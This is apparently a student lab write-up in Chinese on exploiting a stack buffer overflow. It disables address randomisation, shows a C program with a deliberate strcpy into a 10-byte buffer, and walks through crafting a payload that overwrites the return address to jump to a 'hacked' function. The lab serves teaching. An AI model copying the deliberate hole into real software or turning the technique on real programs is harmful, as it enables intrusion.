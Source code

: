 # 二进制缓冲区溢出漏洞的利用

## 配置

预配置：按照homework_3进行配置

让程序地址固定：

右键属性->链接器->高级->设置：

1. 基址：0x21300000 (8位$2^8$即32位机)
2. 随机基址：否
3. 固定基址：是FIXED

## 代码

~~~c++
#define _CRT_SECURE_NO_WARNINGS

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int hacked()
{
	printf("hacked!!");
}

int sub(char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}

// 213115C9
char *ov = "1234123512361237\xc9\x15\x31\x21";
int main(int argc, char** argv)
{
	if (argc > 1)
		sub(ov);
	printf("exit");
}
~~~

## 寻找冲突位置

先置ov 为 "123412351236123712381239";

在main函数的sub处下断点

* 转到反汇编
* 打开内存
* 打开寄存器

在地址（A）中输入hacked, 看到printf函数里的第一个push语句的地址为0x213115C9，当代码执行到sub函数里的ret语句是，查看栈顶指针esp，其值为12381239，说明接下来会从这个地址执行下一个语句，所以将字符串ov置为"1234123512361237\xc9\x15\x31\x21"（注意：**不能写成\x211239，因为转义符会以为待转义的串是211239**。地址是倒着放着，因为是用栈存放，取出来就是正向的了）就可以在sub函数执行结束后转到hacked函数里的printf语句执行了。

![1](img/1.png)

直接点继续，提示：0x38333231 处(位于 CRT.exe 中)引发的异常: 0xC0000005: 执行位置 0x38333231 时发生访问冲突。（这里的38感觉好像是1238里的38）

## 触发过程

将断点下在sub函数的return 0;语句处，调试，转到反汇编

逐过程（F10）执行到ret处，再按F10，下一句直接是hacked函数里的printf函数的第一个push语句，正如我们所期望的那样，正常的函数调用是执行call语句，需要F11单步执行才能到函数内部，但是这里由于栈顶指针的值就是那个push语句的地址，所以直接跳到hacked函数里执行了。

![2](img/2.png)

## 总结

通过本次实验，我更加深刻地体验到了溢出漏洞的危害（包括缓冲区溢出和堆溢出），我们可以利用溢出的部分让计算机执行任何我们想让它执行的代码段，如果这种技术被恶意利用，如果被执行的代码段是病毒代码，那后果将不堪设想。
